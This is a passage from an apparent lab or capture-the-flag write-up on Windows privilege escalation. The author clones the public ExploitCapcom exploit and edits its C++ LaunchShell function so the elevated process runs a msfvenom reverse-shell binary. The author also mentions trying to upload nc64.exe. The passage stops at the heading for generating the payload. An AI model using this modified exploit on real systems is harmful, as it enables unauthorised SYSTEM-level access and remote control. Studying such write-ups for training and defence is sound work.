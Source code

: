 #### Importing the `ExploitCapcom C++` Project: {#importing-the-exploitcapcom-c-plus-plus-project}

-   **This time I am going to clone this repo**:
    -   {{< figure src="/ox-hugo/2024-10-18-111819_.png" >}}

-   **Paste in the repo url**:
    -   <https://github.com/tandasat/ExploitCapcom.git>
    -   {{< figure src="/ox-hugo/2024-10-18-111850_.png" >}}


### Modifying `ExploitCapcom` exploit to enable a reverse shell: {#modifying-exploitcapcom-exploit-to-enable-a-reverse-shell}

-   **I open** `ExploitCapcom.cpp` **and do not remove the** `stdafx.h` **import**:
    -   The reason being is the actual required file containing the header is in this project. So we can compile with it.
        -   {{< figure src="/ox-hugo/2024-10-18-125040_.png" >}}

-   **This exploit by default opens a new elevated shell, however this requires we have** `GUI` **access. So we will need to modify to run a reverse shell**:
    -   Below is the code we are going to modify:
        -   `TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");`
    -   I will modify it to run a reverse shell generated via `msfvenom`:
        ```C++
          // Launches a command shell process
          static bool LaunchShell()
          {
              //Original Line Commented Out:
              //TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
              TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\Documents\\shell.exe");
              PROCESS_INFORMATION ProcessInfo;
              STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
              if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
                  CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
                  &ProcessInfo))
              {
                  return false;
              }

              CloseHandle(ProcessInfo.hThread);
              CloseHandle(ProcessInfo.hProcess);
              return true;
          }
        ```

        -   Full transparency, I tried multiple different payloads. My original plan was to upload `nc64.exe` but it just would not execute not matter the subshells etc I used.

-   **I compile it**:
    -   {{< figure src="/ox-hugo/2024-10-18-125121_.png" >}}


### Generating our reverse-shell payload using `msfvenom`: {#generating-our-reverse-shell-payload-using-msfvenom}
